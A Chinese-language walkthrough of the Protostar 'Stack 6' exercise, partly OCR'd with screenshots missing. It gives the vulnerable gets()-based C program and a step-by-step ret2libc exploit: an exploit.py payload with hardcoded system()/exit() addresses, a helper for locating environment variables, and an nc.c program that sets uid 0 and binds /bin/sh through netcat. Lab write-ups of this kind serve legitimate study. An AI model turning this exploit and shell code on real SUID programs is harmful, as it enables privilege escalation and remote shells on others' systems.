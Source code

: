 # Stack 6

## （一） 题目：

\#include &lt;stdlib.h&gt;

\#include &lt;unistd.h&gt;

\#include &lt;stdio.h&gt;

\#include &lt;string.h&gt;

void getpath\(\)

{

char buffer\[64\];

unsigned int ret;

printf\("input path please: "\); fflush\(stdout\);

gets\(buffer\);

ret = \_\_builtin\_return\_address\(0\);

if\(\(ret & 0xbf000000\) == 0xbf000000\) {

```
printf\("bzzzt \(%p\)\n", ret\);

\_exit\(1\);
```

}

printf\("got path %s\n", buffer\);

}

int main\(int argc, char \*\*argv\)

{

getpath\(\);

}

## （二）解题过程：

这个是典型的的ROP ，绕过栈保护的一种方法。ret2libc意思是返回到c库。调用system函数执行/bin/sh 然后用exit\(\)退出。最终攻击的payload会是：

填充padding --&gt; system（）地址--&gt;exit\(\)地址----&gt;/bin/sh

1\)判断stack6是否有suid权限

![](/png/26.png)

stack6 有suid权限。

2）首先，调用system后，需要执行/bin/sh.要实现这个，需要两步：

把/bin/sh放到环境变量里 $shell

然后system（）调用该变量。

方法：

export SHELL=/bin/sh

echo $SHELL

要想得到变量$SHELL的地址，需要用到gdb调试器

b main  在main函数下断点。

r   运行

查看环境变量的地址和值

x/s \* \(\(char \*\*\)environ+x\)   x是一个数字，然后就打印出相应的变量地址

![](/png/27.png)

3）知道了变量的地址后，来获取漏洞溢出的偏移位置。

![](/png/28.png)

4）gdb 执行进入输入路径填充

![](/png/29.png)

溢出点出现。

![](/png/30.png)

偏移80的地方。此时查看system\(\)和exit\(\)地址

![](/png/31.png)

5）编写漏洞利用代码exploit.py

```
结构如下：
```

import struct

buff = 'A'\*80

system = struct.pack\("I",0xb7ecffb0\)

exit = struct.pack\("I",0xb7ec60c0\)

shell = struct.pack\("I",0xbfffff82\)

print buff+system+exit+shell

![](/png/32.png)

We have to remember that the address of `SHELL`is not the exact address and we will need to go up or down for a little bit. We will execute the script and redirect the output to a file and name it payload. `python /tmp/stack6.py > /tmp/payload` , Then we will cat the file and pipe the output to `./stack6`

难点在于需要调整SHELL变量的地址。测试了好几次没找到正好地。明天接着试试。

![](/png/33.png)

测试中发现可能是环境变量选择的问题。尝试换一个环境变量执行TTE="whoami"

另外环境变量地址的获取方法最好使用程序老获取，gdb获取的不准确，不好调整。

export TTE="whoami"

获取环境变量地址的c代码如下：

getaddress.c

![](/png/34.png)

\#include &lt;stdio.h&gt;

\#include &lt;stdlib.h&gt;

\#include &lt;string.h&gt;

int main\(int argc, char \*argv\[\]\) {

```
            char \*ptr;

            if\(argc &lt; 3\) {

                            printf\("Usage: %s &lt;environment variable&gt; &lt;target program name&gt;\n", argv\[0\]\);

                            exit\(0\);

            }

            ptr = getenv\(argv\[1\]\); /\* get env var location \*/

            ptr += \(strlen\(argv\[0\]\) - strlen\(argv\[2\]\)\)\*2; /\* adjust for program name \*/

            printf\("%s will be at %p\n", argv\[1\], ptr\);
```

![](/png/35.png)

stack6.py 的脚本如下：

![](/png/36.png)

根据反馈信息，地址做了微调。程序最后返回root.

那么，现在做一下验证，再把TTE环境变量改回"/bin/sh"试，不好用。为了得到一个shell，我们采用将环境变量设置为可以反弹shell的nc程序。

在/tmp目录下编写nc.c

\#include &lt;stdlib.h&gt;

int main\(int argc, char \*\*argv, char \*\*envp\) {

```
setuid\(0\); // These two are necessary, as system\(\) drops privileges

setgid\(0\);

char \*args\[\] = {  "nc", "-lp8080", "-e/bin/sh", \(char \*\) 0 };

execve\("/bin/nc", args, envp\);
```

}

在/tmp目录下运行得到nc

设置环境变量 RUN

export RUN=///////////////////tmp/nc

利用上面取环境变脸地址的程序/tmp/addr RUN ./stack6获取环境变量地址

然后修改stack6.py脚本地址就可以了。

在kali下监听7777端口，成功。

nc.c

![](/png/39.png)

利用addr获取变量run地址

![](/png/38.png)

![](/png/37.png)

ref：

[https://blog.csdn.net/stonesharp/article/details/38402953?utm\_source=blogxgwz4](https://blog.csdn.net/stonesharp/article/details/38402953?utm_source=blogxgwz4)

[https://programlife.net/](https://programlife.net/)

[https://0xrick.github.io/binary-exploitation/bof6/](https://0xrick.github.io/binary-exploitation/bof6/)

[https://www.shellblade.net/posts.html](https://www.shellblade.net/posts.html)

http://louisrli.github.io/blog/2012/08/28/protostar-stack2/\#.XXHf9WZ5v\_V




